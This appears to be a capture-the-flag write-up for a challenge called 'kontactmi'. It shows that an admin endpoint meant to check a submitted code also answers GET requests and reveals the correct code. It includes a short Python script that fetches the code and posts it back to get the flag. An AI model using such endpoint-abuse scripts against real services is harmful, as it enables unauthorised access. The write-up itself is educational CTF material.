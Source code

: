 # Challenge

This challenge lets us play a game on a gameboy and collect collectibles.
Whenever a collectible is collected, part of a code gets added to our current code; this code, then, can be sent to an admin through a post request for him to evaluate it.

![alt text](request.png)

# Solution
The endpoint where the code is sent supports not only POST requests, but also GET requests.
So, if we make a GET request to the same endpoint, it responds with the correct code.
We can then send the correct code to get the flag.

```python
import requests

code = requests.get(f"https://kontactmi.challs.pascalctf.it/adminSupport").json()['response']

flag = requests.post(f"https://kontactmi.challs.pascalctf.it/adminSupport", json={"code":code}).text
print(flag)
```